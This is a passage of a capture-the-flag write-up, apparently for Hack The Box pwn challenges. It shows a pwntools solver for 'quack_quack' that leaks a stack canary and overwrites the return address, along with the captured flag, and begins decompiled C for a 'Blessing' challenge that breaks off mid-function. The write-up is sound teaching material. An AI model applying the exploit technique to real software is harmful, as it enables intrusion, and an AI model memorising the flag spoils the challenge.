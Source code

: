 - we make v1+32 point to &canary+1 to skip the first null byte
- we change ret address to win address .

### Solver :

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''

                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./quack_quack")
libc=ELF("./glibc/libc.so.6")
nc="nc 94.237.60.20 46275"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############
p.send(b"a"*(0x58+1)+b"Quack Quack ")

p.recvuntil("> Quack Quack ")
canary=u64(p.recv(7).rjust(8,b"\x00"))
log.info(hex(canary))
p.send(b"a"*0x58+p64(canary)+p64(0)+p64(0x40137f))

p.interactive()
```

_HTB{~c4n4ry_g035_qu4ck_qu4ck~\_ead9afcab060f18a34af4dcca35ee5a2}_

---

# Blessing

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t size; // [rsp+8h] [rbp-28h] BYREF
  unsigned __int64 i; // [rsp+10h] [rbp-20h]
  _QWORD *v6; // [rsp+18h] [rbp-18h]
  void *buf; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  banner();
  size = 0LL;
  v6 = malloc(0x30000uLL);
```